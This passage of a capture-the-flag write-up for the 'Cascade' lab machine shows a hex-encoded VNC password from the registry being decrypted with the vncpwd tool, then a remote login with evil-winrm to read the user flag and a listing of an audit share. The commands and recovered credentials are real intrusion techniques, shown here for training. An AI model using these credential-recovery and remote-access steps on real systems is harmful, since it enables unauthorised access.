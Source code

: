 ```bash
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

Decrypting this from and converting to base64 we get the string `a88qS25ayg8=`.

We know that the file is called `VNC install` so we search for password decrypters with `VNC`.

We come accross a tool on github and we compile it on our machine: [Vncpwdtool](https://github.com/jeroennijhof/vncpwd)

We git clone this and run the commands to compile the binary.

```bash
➜  vncpwd git:(master) gcc -o vncpwd vncpwd.c d3des.c

➜  vncpwd git:(master) ✗ ./vncpwd hash 
Password: sT333ve2
```

#### User.txt

We now login with `evil-winrm` and read the user flag.

```bash
➜  cascade evil-winrm -i cascade.htb -u s.smith -p sT333ve2


Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> 
*Evil-WinRM* PS C:\Users\s.smith\Documents> type ../Desktop/user.txt
2560be791{...}
```

## Root

### reversing the dll and exe files

We find the shares folder and enumerate that further.

Since we are not allowed to list the shares it doesnt matter as we already know all of the share names from smb access.

```bash
*Evil-WinRM* PS C:\Shares> cd Audit
*Evil-WinRM* PS C:\Shares\Audit> dir


    Directory: C:\Shares\Audit


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/28/2020   9:40 PM                DB
d-----        1/26/2020  10:25 PM                x64
d-----        1/26/2020  10:25 PM                x86
-a----        1/28/2020   9:46 PM          13312 CascAudit.exe
-a----        1/29/2020   6:00 PM          12288 CascCrypto.dll
-a----        1/28/2020  11:29 PM             45 RunAudit.bat
-a----       10/27/2019   6:38 AM         363520 System.Data.SQLite.dll
-a----       10/27/2019   6:38 AM         186880 System.Data.SQLite.EF6.dll
```
